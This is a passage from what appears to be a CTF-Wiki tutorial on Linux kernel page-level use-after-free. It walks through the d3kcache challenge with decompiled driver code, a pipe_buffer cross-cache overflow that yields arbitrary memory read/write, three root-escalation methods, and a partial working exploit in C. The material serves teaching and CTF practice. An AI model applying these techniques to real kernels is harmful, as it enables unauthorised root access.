






# Page-level UAF

**Page-level UAF** is also an exploitation technique **targeting the buddy system**. This attack technique mainly refers to the use-after-free of memory pages themselves or memory page structures (`page`), for example:

- We can reallocate a UAF page as `slub pages` for a specified `kmem_cache` through page reallocation, **thereby achieving cross-`kmem_cache` UAF exploitation without any restrictions**.
- We can reallocate a UAF page as a specified process's page table through page reallocation, thereby achieving **arbitrary memory mapping attacks**.
- We can trigger a slab free by freeing all slab objects, and then perform UAF on the data on the page, thereby **converting UAF read/write on kernel objects into UAF read/write on the page**.
- ......

As a relatively new exploitation technique that has emerged in recent years, page-level UAF still has much more for us to explore.

> Note: We do not use the name ["PageJack" renamed by a certain "group"](https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf). The publication time of this CTF-Wiki page alone predates BlackHat 2024 USA by at least over a year (and it should have been circulating in some small circles even earlier). For something that was publicly available at least over a year ago, it would be absurd to acknowledge and use a name from non-original authors over a year later.

## Example: D^3CTF2023 - d3kcache

> The original challenge files can be downloaded from [https://github.com/arttnba3/D3CTF2023_d3kcache](https://github.com/arttnba3/D3CTF2023_d3kcache).

### Challenge Analysis

The reverse engineering of this challenge should be relatively straightforward. In the module initialization function, an independent `kmem_cache` is created with an object size of 2048:

```c
__int64 sub_529()
{
  printk(&unk_96B);
  major_num = _register_chrdev(0LL, 0LL, 256LL, "d3kcache", &d3kcache_fo);
  if ( major_num >= 0 )
  {
    module_class = _class_create(&_this_module, "d3kcache", &d3kcache_module_init___key);
    if ( (unsigned __int64)module_class < 0xFFFFFFFFFFFFF001LL )
    {
      printk(&unk_A0D);
      module_device = device_create(module_class, 0LL, (unsigned int)(major_num << 20), 0LL, "d3kcache");
      if ( (unsigned __int64)module_device < 0xFFFFFFFFFFFFF001LL )
      {
        printk(&unk_A66);
        spin = 0;
        kcache_jar = kmem_cache_create_usercopy("kcache_jar", 2048LL, 0LL, 67379200LL, 0LL, 2048LL, 0LL);
        memset(&kcache_list, 0, 0x100uLL);
      }
      else
      {
        class_destroy(module_class);
        _unregister_chrdev((unsigned int)major_num, 0LL, 256LL, "d3kcache");
        printk(&unk_A3B);
      }
    }
    else
    {
      _unregister_chrdev((unsigned int)major_num, 0LL, 256LL, "d3kcache");
      printk(&unk_9DE);
    }
  }
  else
  {
    printk(&unk_9AD);
  }
  return _x86_return_thunk(0LL, 0LL, 0LL, 0LL, 0LL, 0LL);
}
```

The custom ioctl function provides a heap menu with allocate, append-edit, free, and read operations. The vulnerability lies in the append-edit operation — when writing up to the full 2048 bytes, there is a `\0` byte overflow:

```c
__int64 __fastcall sub_99(__int64 a1, int a2, __int64 a3)
{
  __int64 v4; // r8
  __int64 v5; // r9
  int v7; // ecx
  __int64 v8; // r14
  __int64 v9; // r15
  __int64 v10; // r12
  int v11; // ecx
  __int64 v12; // rbx
  __int64 v13; // r14
  __int64 v14; // r15
  __int64 v15; // rax
  __int64 v16; // r15
  unsigned int v17; // er13
  __int64 v18; // r14
  __int64 v19; // r12
  __int64 v20; // r14
  unsigned __int64 v21; // rbx
  __int64 v22; // rax
  __int64 v23; // r12
  unsigned __int64 v24; // rbx
  void *v25; // rdi
  unsigned int v26; // [rsp+0h] [rbp-40h] BYREF
  unsigned int v27; // [rsp+4h] [rbp-3Ch]
  __int64 v28; // [rsp+8h] [rbp-38h]
  unsigned __int64 v29; // [rsp+10h] [rbp-30h]

  v29 = __readgsqword(0x28u);
  raw_spin_lock(&spin);
  if ( copy_from_user(&v26, a3, 16LL) )
    goto LABEL_2;
  if ( a2 > 2063 )
  {
    if ( a2 == 2064 )
    {
      if ( v26 > 0xFuLL || !qword_17D8[2 * v26] )
      {
        v25 = &unk_882;
        goto LABEL_46;
      }
      kmem_cache_free(kcache_jar);
      v20 = (int)v26;
      if ( (unsigned __int64)(int)v26 > 0xF )
      {
        _ubsan_handle_out_of_bounds(&off_12A0, v26);
        v21 = (int)v26;
        qword_17D8[2 * v20] = 0LL;
        if ( v21 >= 0x10 )
          _ubsan_handle_out_of_bounds(&off_12C0, (unsigned int)v21);
      }
      else
      {
        qword_17D8[2 * (int)v26] = 0LL;
        v21 = (unsigned int)v20;
      }
      kcache_list[4 * v21] = 0;
    }
    else
    {
      if ( a2 != 6425 )
        goto LABEL_42;
      if ( v26 > 0xFuLL || !qword_17D8[2 * v26] )
      {
        v25 = &unk_85D;
        goto LABEL_46;
      }
      v11 = v27;
      if ( v27 > kcache_list[4 * v26] )
        v11 = kcache_list[4 * v26];
      if ( v11 < 0 )
        BUG();
      v12 = (unsigned int)v11;
      v13 = qword_17D8[2 * v26];
      v14 = v28;
      _check_object_size(v13, (unsigned int)v11, 1LL);
      copy_to_user(v14, v13, v12);
    }
  }
  else
  {
    if ( a2 != 276 )
    {
      if ( a2 == 1300 )
      {
        if ( v26 <= 0xFuLL && qword_17D8[2 * v26] )
        {
          v7 = v27;
          if ( v27 > 0x800 || v27 + kcache_list[4 * v26] >= 0x800 )
            v7 = 2048 - kcache_list[4 * v26];
          if ( v7 < 0 )
            BUG();
          v8 = qword_17D8[2 * v26] + (unsigned int)kcache_list[4 * v26];
          v9 = (unsigned int)v7;
          v10 = v28;
          _check_object_size(v8, (unsigned int)v7, 0LL);
          if ( !copy_from_user(v8, v10, v9) )
            *(_BYTE *)(v8 + v9) = 0; /* vulnerability here */
          goto LABEL_2;
        }
        v25 = &unk_837;
LABEL_46:
        printk(v25);
        goto LABEL_2;
      }
LABEL_42:
      v25 = &unk_8AA;
      goto LABEL_46;
    }
    if ( v26 >= 0x10uLL )
    {
      v25 = &unk_782;
      goto LABEL_46;
    }
    if ( qword_17D8[2 * v26] )
    {
      v25 = &unk_7F6;
      goto LABEL_46;
    }
    v15 = kmem_cache_alloc(kcache_jar, 3520LL);
    if ( !v15 )
    {
      v25 = &unk_81A;
      goto LABEL_46;
    }
    v16 = v15;
    v17 = v27;
    v18 = 2048LL;
    if ( v27 < 0x800 )
      v18 = v27;
    v19 = v28;
    _check_object_size(v15, v18, 0LL);
    if ( copy_from_user(v16, v19, v18) )
    {
      kmem_cache_free(kcache_jar);
    }
    else
    {
      v22 = 2047LL;
      if ( v17 < 0x7FF )
        v22 = v17;
      *(_BYTE *)(v16 + v22) = 0;
      v23 = (int)v26;
      if ( (unsigned __int64)(int)v26 > 0xF )
      {
        _ubsan_handle_out_of_bounds(&off_1260, v26);
        v24 = (int)v26;
        qword_17D8[2 * v23] = v16;
        if ( v24 >= 0x10 )
          _ubsan_handle_out_of_bounds(&off_1280, (unsigned int)v24);
      }
      else
      {
        qword_17D8[2 * (int)v26] = v16;
        v24 = (unsigned int)v23;
      }
      kcache_list[4 * v24] = v18;
    }
  }
LABEL_2:
  raw_spin_unlock(&spin);
  return _x86_return_thunk(0LL, 0LL, 0LL, 0LL, v4, v5);
}
```

Also, by examining the kernel compilation configuration provided with the challenge, we can see that **Control Flow Integrity protection is enabled**:

```
CONFIG_CFI_CLANG=y
```

Other common protections (KPTI, KASLR, Hardened Usercopy, ...) are basically all enabled, so we won't elaborate on them here.

> Of course, with the thriving development of kernel exploitation today, one should now assume all these protections are enabled by default when doing kernel exploitation.

### Vulnerability Exploitation

Since the `kmem_cache` used by the challenge is an independent `kmem_cache`, we can only consider **cross-cache overflow**: **overflowing into pages occupied by other structures to complete the exploitation**.

> After all, it's hard to expect that under all freelist-related protections being enabled, the next pointer of a free object would happen to be in the first 8 bytes and the overwrite would just happen to hijack the freelist to a valid controllable address.

#### Step.I - Page-level Heap Feng Shui for Stable Cross-page Overflow Layout

> The implementation details of page-level heap feng shui have been described in the previous chapter and will not be repeated here.

To ensure the stability of the overflow, the author uses the page-level heap feng shui method to construct a **pre-overflow layout**. Through page-level heap feng shui, we obtain **page-level control over a contiguous block of memory**, and can thus construct the following heap layout as shown:

- First release some pages, letting the victim objects take these pages
- Release a set of pages, then request the challenge module to allocate objects, obtaining those pages
- Then release more pages, letting the victim objects take these pages

This way, the pages belonging to the challenge module will be sandwiched between the victim objects' pages, **greatly increasing the stability of the overflow**.



#### Step.II - fcntl(F\_SETPIPE\_SZ) to Change pipe\_buffer's Slub Size, Cross-page Overflow to Construct Page-level UAF

Next, we consider the target object for the overflow. Since we only have a single-byte overflow, we undoubtedly need to look for kernel objects that have pointers to other kernel objects at the beginning of their structures. It's easy to think that `pipe_buffer` is an excellent exploitation target — it has a pointer to a `page` structure at its beginning, and the size of `page` is only `0x40`, which is divisible by 0x100. If we can **make two pipes point to the same page through a partial overwrite and then free one of them**, we will have constructed a **page-level UAF**:






At the same time, **the characteristics of pipes also allow us to arbitrarily read and write on the UAF page**, which means we can **allocate this page as slub pages for other kmem\_caches, and then use the pipe to achieve arbitrary read/write on the objects on it**.

However, there is a small issue: `pipe_buffer` comes from `kmalloc-cg-1k`, which requests order-2 pages, while the challenge module's object size is 2k, which requests order-3 pages. If we directly perform heap feng shui between different orders, the success rate of the exploitation will be greatly reduced.

Now let's re-examine the allocation process of `pipe_buffer`. It actually allocates `pipe_bufs` number of `pipe_buffer` structures at once:

```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	//...

	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```

Note here that `pipe_buffer` **is not a constant but a variable**, so **can we modify the number of pipe\_buffers?** The answer is yes — the pipe system call conveniently provides `F_SETPIPE_SZ` **allowing us to reallocate pipe\_buffer and specify its quantity**:

```c
long pipe_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
{
	struct pipe_inode_info *pipe;
	long ret;

	pipe = get_pipe_info(file, false);
	if (!pipe)
		return -EBADF;

	__pipe_lock(pipe);

	switch (cmd) {
	case F_SETPIPE_SZ:
		ret = pipe_set_size(pipe, arg);
//...

static long pipe_set_size(struct pipe_inode_info *pipe, unsigned long arg)
{
	//...

	ret = pipe_resize_ring(pipe, nr_slots);

//...

int pipe_resize_ring(struct pipe_inode_info *pipe, unsigned int nr_slots)
{
	struct pipe_buffer *bufs;
	unsigned int head, tail, mask, n;

	bufs = kcalloc(nr_slots, sizeof(*bufs),
		       GFP_KERNEL_ACCOUNT | __GFP_NOWARN);
```

So it's easy to think that **we can use fcntl() to reallocate the number of pipe\_buffers for a single pipe**:

- For each pipe, we **specify allocating 64 pipe\_buffers, causing it to request objects from kmalloc-cg-4k, which will ultimately request order-3 pages from the buddy system**

Thus, we successfully make `pipe_buffer` reside on **memory pages of the same order** as the challenge module's objects, thereby improving the success rate of the cross-cache overflow.

However, it should be noted that since the size of the page structure is 0x40 and is divisible by 0x100, if the last byte of the target page's address that we overflow happens to be `\x00`, _it's equivalent to no overflow at all_. Therefore, the actual exploitation success rate is only `75%`.

#### Step.III - Constructing a Second-level Self-writing Pipe for Arbitrary Memory Read/Write

With the page-level UAF, we now consider what structure to allocate on this page as the next-stage victim object.

Since pipes inherently provide us with read/write functionality, and we can adjust the size of `pipe_buffer` and reallocate the structure, choosing `pipe_buffer` again as the victim object is the most natural choice:



Next, we can **read the pipe\_buffer content through the UAF pipe to leak useful data such as page and pipe\_buf\_operations** (we can pre-write some data of a certain length to the pipe before reallocation to enable data reading). Since we can directly overwrite `pipe_buffer` through the UAF pipe, converting the vulnerability into a dirty pipe might be a good approach (this was also the solution used by Team NU1L in this competition).

But the power of pipes goes far beyond that. Since we can read and write `pipe_buffer` on the UAF page, we can **continue to construct a second-level page-level UAF**:



Why do this? During the first UAF, we obtained the address of the page structure. The size of page structures is fixed at 0x40, **and they correspond one-to-one with physical memory pages**. Imagine if we can continuously modify a pipe's page pointer — **then we can achieve arbitrary read/write across the entire memory space**. Therefore, the next step is to construct such an exploitation system.

Once again, we reallocate `pipe_buffer` structures onto the second-level page-level UAF page. **Since the address of the page structure corresponding to this physical page is known to us, we can directly make the pipe\_buffer's page pointer on this page point to itself, thereby directly completing self-modification**:



Here we can tamper with `pipe_buffer.offset` and `pipe_buffer.len` to shift the pipe's read/write starting position, achieving infinite cyclic read/write. However, these two variables will be reassigned after completing read/write operations, so here we use **three pipes**:

- The first pipe is used for arbitrary read/write in the memory space — we accomplish this by modifying its page pointer :)
- The second pipe is used to modify the third pipe, making its write starting position point to the first pipe
- The third pipe is used to modify the first and second pipes, making the first pipe's page pointer point to a specified location, and the second pipe's write starting position point to the third pipe

Through this circular modification among the three pipes, we **achieve a near-unrestricted arbitrary read/write system in the memory space**.

#### Step.IV - Privilege Escalation

With arbitrary read/write in the memory space, privilege escalation becomes very straightforward. Here the author presents three privilege escalation methods.

##### Method 1: Modify the Current Process's task\_struct cred to init\_cred

`init_cred` is a cred with root privileges. We can directly modify the current process's cred to this cred to complete the privilege escalation. Here we can use `prctl(PR_SET_NAME, "arttnba3pwnn");` to modify `task_struct.comm`, making it easier to search for the current process's `task_struct` in the memory space.

However, the `init_cred` symbol is sometimes not exported in `/proc/kallsyms`, and we may not be able to obtain its address during debugging. Therefore, the author chooses to parse the `task_struct` to traverse upward until finding the `init` process (the parent of all processes) `task_struct`, thus obtaining the `init_cred` address.

Additionally, we can also choose to directly modify several uid fields in the current process's `task_struct::cred`, which we won't elaborate on here.

##### Method 2: Kernel Page Table Parsing to Obtain Kernel Stack Physical Address, Overwrite Kernel Stack via Direct Mapping Area for ROP

**Having CFI enabled does not mean we cannot perform arbitrary code execution in kernel space**. Because page structures correspond one-to-one with physical memory pages, we can easily convert between physical addresses and page structure addresses. Since page tables store physical addresses, it's natural to think that **we can parse the current process's page table to obtain the kernel stack's physical address, thereby getting the page corresponding to the kernel stack**. Afterwards, we can **directly write a ROP chain onto the kernel stack to achieve arbitrary code execution**.

The page table address can be obtained through `mm_struct`, the `mm_struct` address can be obtained through `task_struct`, and the kernel stack address can also be obtained through `task_struct` — so all of this comes naturally.

Note that the kernel stack is a memory segment allocated using vmalloc, so **the four memory pages corresponding to the kernel stack are not necessarily physically contiguous**. If we calculate the stack bottom page's physical address based on the result of parsing the first memory page's corresponding physical address, **there's a considerable probability that we won't be able to write to the current process's kernel stack** (we don't know where it would end up being written), causing the ROP to fail.

Therefore, we need to parse the physical address corresponding to the virtual address of the stack bottom memory page, rather than directly parsing the stack top virtual address obtained from `task_struct` and then calculating the stack bottom physical address.

##### Method 3: Kernel Page Table Parsing to Obtain Code Segment Physical Address, Modify Kernel Page Table to Establish New Mapping for USMA

Since we can perform arbitrary read/write in the memory space, **directly modifying the kernel code segment is also a good way to achieve arbitrary code execution**. However, the kernel code segment region in the direct mapping area **does not have write permission, and writing directly will cause a kernel panic.**

But modifying the kernel code segment essentially means writing data to the corresponding physical pages. Since we can read/write process page tables, **we can directly establish a mapping in user space to the physical memory corresponding to the kernel code segment to modify it.** Here we choose to modify the `ns_capable_setid()` function used for permission checking in the `setresuid()` function — simply patching away the permission check part allows us to directly change the current process's uid to root through the `setresuid()` function.

For convenience, we can first `mmap()` an arbitrary block of memory, then modify the physical address corresponding to `mmap()`'s virtual address in the page table. This method is essentially the [Userspace Mapping Attack (USMA)](https://vul.360.net/archives/391).

#### Final Exploitation

The complete final exploit is as follows, **including the code for all three privilege escalation methods presented by the author**:

```c
/**
 * Copyright (c) 2023 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sched.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/mman.h>

/**
 * I - fundamental infrastructures
 * e.g. CPU-core binder, user-status saver, etc.
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

#ifndef PAGE_SIZE
    #define PAGE_SIZE 0x1000
#endif

#ifndef PAGE_MASK
    #define PAGE_MASK (~(PAGE_SIZE - 1))
#endif

#define KERNEL_BASE 0xffffffff81000000
#define KERNEL_DIRECT_PHYSMEM_MAP_BASE 0xffff888000000000
#define KERNEL_VMEMMAP_BASE 0xffffea0000000000
#define KASLR_GRANULARITY 0x10000000
#define KASLR_MASK (~(KASLR_GRANULARITY - 1))

size_t kernel_base = KERNEL_BASE, kernel_offset = 0;
size_t page_offset_base = KERNEL_DIRECT_PHYSMEM_MAP_BASE;
size_t vmemmap_base = KERNEL_VMEMMAP_BASE;
size_t init_task, init_nsproxy, init_cred;

size_t direct_map_addr_to_page_addr(size_t direct_map_addr)
{
    size_t page_count;

    page_count = ((direct_map_addr & (~0xfff)) - page_offset_base) / 0x1000;
    
    return vmemmap_base + page_count * 0x40;
}

void err_exit(char *msg)
{
    printf(ERROR_MSG("[x] Error at: ") "%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);

    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("su root -c sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_info("[*] Status has been saved.");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf(SUCCESS_MSG("[*] Process binded to core ") "%d\n", core);
}

/**
 * @brief create an isolate namespace
 * note that the caller **SHOULD NOT** be used to get the root, but an operator
 * to perform basic exploiting operations in it only
**/
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

struct page;
struct pipe_inode_info;
struct pipe_buf_operations;

/* read start from len to offset, write start from offset */
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};

struct pipe_buf_operations {
	int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
	int (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
	int (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};

/**
 * II - interface to interact with /dev/kcache
**/

#define KCACHE_SIZE 2048
#define KCACHE_NUM 0x10

#define KCACHE_ALLOC 0x114
#define KCACHE_APPEND 0x514
#define KCACHE_READ 0x1919
#define KCACHE_FREE 0x810

struct kcache_cmd {
    int idx;
    unsigned int sz;
    void *buf;
};

int dev_fd;

int kcache_alloc(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_ALLOC, &cmd);
}

int kcache_append(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_APPEND, &cmd);
}

int kcache_read(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_READ, &cmd);
}

int kcache_free(int index)
{
    struct kcache_cmd cmd = {
        .idx = index,
    };

    return ioctl(dev_fd, KCACHE_FREE, &cmd);
}

/**
 * III -  pgv pages sprayer related 
 * not that we should create two process:
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      receiving cmd from parent and operates it only
**/

#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

/* operations type */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* tpacket version for setsockopt */
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

/* pipe for cmd communication */
int cmd_pipe_req[2], cmd_pipe_reply[2];

/* create a socket and alloc pages, return the socket fd */
int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        log_error("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        log_error("[x] failed at setsockopt(PACKET_VERSION)");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        log_error("[x] failed at setsockopt(PACKET_TX_RING)");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

/* the parent process should call it to send command of allocation to child */
int alloc_page(int idx, unsigned int size, unsigned int nr)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
        .size = size,
        .nr = nr,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

/* the parent process should call it to send command of freeing to child */
int free_page(int idx)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

